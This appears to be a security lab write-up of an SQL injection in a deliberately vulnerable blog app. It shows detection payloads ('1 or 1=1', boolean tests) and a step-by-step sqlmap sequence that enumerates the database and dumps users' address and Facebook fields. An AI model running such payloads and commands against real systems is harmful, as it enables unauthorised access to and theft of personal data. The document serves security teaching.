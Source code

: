 # SQL injection 

# SQLi in PostURL

## 1. Detect

After watching the post and saw the parameter on the URL varies by post, should see the post can be from the database query according to `id` out.

![image](https://user-images.githubusercontent.com/63194321/133370013-a70c910b-8a60-4fbd-a680-64603899d327.png)

We will check in this location.

First, we will test by appending a quote character `'` after the parameter

![image](https://user-images.githubusercontent.com/63194321/133370885-897e59e2-d252-4d6b-a149-1edb82826ca4.png)

The return result is an error message. So there could be a blind SQLi hole here.

![image](https://user-images.githubusercontent.com/63194321/133391406-72020e06-d044-4b9a-a2c9-48aae1e99cff.png)

To be more sure, we will send a more complex payload `1 or 1=1`.

The result returns all the articles in the database. So this is definitely an `SQli vulnerability`

On the other hand, to determine which type of SQLi it is, we will need to check a few more payloads.

If we add the payload `1 AND true=true`, the website results are still normal. This is a `boolean-base blind` which is a form of `blind SQLi`.

![image](https://user-images.githubusercontent.com/63194321/133391554-96cd5a80-a965-44da-b279-c4191f8ebe10.png)

We have identified the type and location of vulnerabilities, then we will exploit them next.


## 2. Exploit 

Now we will use a tool called `SQl map` to exploit the vulnerability.

**B1.** Start Sqlmap and enter command to scan for `sqli` vulnerabilities:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch`

![image](https://user-images.githubusercontent.com/63194321/132514620-a0461970-1a66-4020-b964-d29e07edc21d.png)

**B2.** Define a list of databases:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -dbs`

![image](https://user-images.githubusercontent.com/63194321/132514974-21d6fb4f-a28f-4a49-98d4-b06a6f421684.png)

**B3.** Identify the tables in the database:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -tables`

![image](https://user-images.githubusercontent.com/63194321/132515143-ab63af90-e875-482c-a97d-260182a9fd1d.png)

**B4.**  Define columns in tables:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -T blogapp_userprofile -columns`

![image](https://user-images.githubusercontent.com/63194321/132515937-1002ad48-2c16-45fe-a06b-573d4ab3373b.png)


**B5.** Get the address value, facebook link of users.

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -T blogapp_userprofile -C address,facebook --dump`

![image](https://user-images.githubusercontent.com/63194321/132516371-564f7d1e-d631-412c-a24e-2032a255b77e.png)
